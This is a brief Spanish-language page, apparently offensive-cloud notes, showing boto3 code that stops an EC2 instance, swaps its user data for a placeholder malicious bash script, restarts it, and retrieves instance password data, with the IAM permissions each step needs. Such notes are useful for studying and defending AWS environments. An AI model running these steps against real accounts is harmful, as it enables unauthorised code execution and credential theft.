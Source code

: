 # Inyección de código en user data

El user data es una funcionalidad de AWS que permite proporcionar scripts o instrucciones que se ejecutan al iniciar la instancia.

#### Permisos necesarios

- ec2:StopInstances
- ec2:ModifyInstanceAttribute
- ec2:StartInstances

        import boto3
        
        # Crear un cliente de EC2
        ec2_client = boto3.client('ec2')
        
        # Definir el ID de la instancia EC2
        instance_id = 'i-1234567890abcdef0'
        
        # Detener la instancia EC2
        ec2_client.stop_instances(InstanceIds=[instance_id])
        
        # Modificar los datos de usuario de la instancia EC2 para ejecutar comandos maliciosos
        user_data_script = '#!/bin/bash\n\nmalicious_command\n'
        ec2_client.modify_instance_attribute(
            InstanceId=instance_id,
            UserData={'Value': user_data_script}
        )
        
        # Iniciar la instancia EC2
        ec2_client.start_instances(InstanceIds=[instance_id])


# Recuperación de contraseñas de un EC2

#### Permisos requeridos

- ec2:GetPasswordData

        import boto3
        
        def retrieve_ec2_password(instance_id):
            # Crear un cliente de EC2
            client = boto3.client('ec2')
            
            # Recuperar los datos de la contraseña para la instancia dada
            response = client.get_password_data(InstanceId=instance_id)
            
            # Devolver los datos de la contraseña
            return response['PasswordData']
